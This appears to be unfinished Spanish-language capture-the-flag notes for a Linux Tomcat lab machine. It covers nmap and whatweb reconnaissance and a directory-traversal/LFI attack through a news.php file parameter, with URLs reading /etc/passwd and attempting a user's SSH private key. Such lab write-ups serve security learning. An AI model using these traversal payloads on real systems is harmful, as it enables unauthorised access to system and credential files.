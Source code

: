 ## Summary

Tags: #Linux #Tomcat #DirectoryPathTraversal #Msfvenom 

- IP -> 10.10.10.194
- Ports -> TCP (22, 80, 8080), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 8.2p1
    - 80 -> Apache httpd 2.4.41
    - 8080 -> Apache Tomcat 

## Launchpad

-   [Launchpad](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts 

❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash
❯ whatweb ❮http://❮IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash 
# En el puerto 80 de la pagina encontramos en la web una pestaña llamada "NEWS", la cual no podemos ingresar porque se esta aplicando virtual hosting. Por lo que debemos de agregar el dominio a nuestro '/etc/hosts' 

# Dentro de NEWS observamos lo siguiente en la url:

❯ megahosting.htb/news.php?file=statement

# Ahi podemos observar que hay un '?file=' que nos puede llevar a un LFI (Local File Inclusion), por lo que probamos lo siguiente en la URL:

❯ megahosting.htb/news.php?file=/../../../../../etc/passwd       # Hacemos un Directory Path Traversal para ver el /etc/host de la maquina victima

# Miramos el resultado desde el codigo de la pagina con 'Ctrl + u'

# Podemos observar dos usuarios, el primero es 'root' y el segundo 'ash', por lo que nos disponemos a ver si podemos ver mas cosas como:

❯ megahosting.htb/news.php?file=/../../../../../home/ash/user.txt
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/authorized_keys
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa.pub

# Pero no podemos mirar nada de los comandos anteriores ya que existe una restriccion.
```

## User


## Root